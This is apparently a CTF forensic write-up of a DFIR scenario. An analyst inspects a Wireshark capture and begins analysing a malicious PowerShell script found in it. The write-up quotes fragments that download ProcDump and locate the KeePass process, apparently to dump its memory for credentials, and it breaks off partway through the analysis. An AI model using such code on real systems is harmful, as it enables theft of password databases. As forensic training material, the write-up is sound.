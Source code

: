 # CTF ROOM NAME - Extracted

Working as a senior DFIR specialist brings a new surprise every day. Today, one of your junior colleagues raised an alarm that some suspicious traffic was generated from one of the workstations, but they couldn't figure out what was happening.

Unfortunately, there was an issue with the SIEM ingesting the network traffic, but luckily, the network capture device was still working. They asked if you could look into it since you are known as *The Magician* around these parts.

> **Note:** For free users using the AttackBox, the challenge is best done using your own environment. Some browsers may detect the file as malicious. The zip file is safe to download (MD5: `f9723177263da65ffdac74ffbf8d06a4`). In general, as a security practice, download the zip and analyze the forensic files on a dedicated virtual machine, not on your host OS.

---

You downloaded a **120 MB Wireshark capture file**, unzipped it, and added it into Kali Linux. The file is named `traffic.pcapng`. Open it in Wireshark:

1. **Open Statistics → Protocol Hierarchy**: About 99.1% are `data` (suspicious).
2. **Open Statistics → Conversations**: Only 2 IP addresses and 3 ports (1337, 1338, 1339) are involved.

The HTTPS request file looked really suspicious. Following the TCP stream, you got a **PowerShell code**. After pasting it into GPT to analyze, here’s what we found:

---

## Analysis of the PowerShell Script

### 1. File type and delivery

* The file requested is `xxxmmdcclxxxiv.ps1`.
* `.ps1` is a PowerShell script, which can execute almost anything on Windows.
* Downloading a `.ps1` file from an untrusted host (`10.10.94.106:1339`) is already dangerous.

### 2. Indicators of malicious behavior

* **Downloading tools automatically:**

  ```powershell
  $ProcdUmpDOWNloADURL = 'https://download.sysinternals.com/files/Procdump.zip'
  Invoke-WebRequest -Uri $ProcdUmpDOWNloADURL -OutFile $PrOcdUmpziPpaTH
  Expand-Archive -Path $PrOcdUmpziPpaTH
  ```

  * Automatically downloads `ProcDump`.
  * Attackers use it to dump memory from other processes.

* **Targeting running processes:**

  ```powershell
  $KEEPASsPrOCesS = Get-Process -Name 'KeePass'
  ```
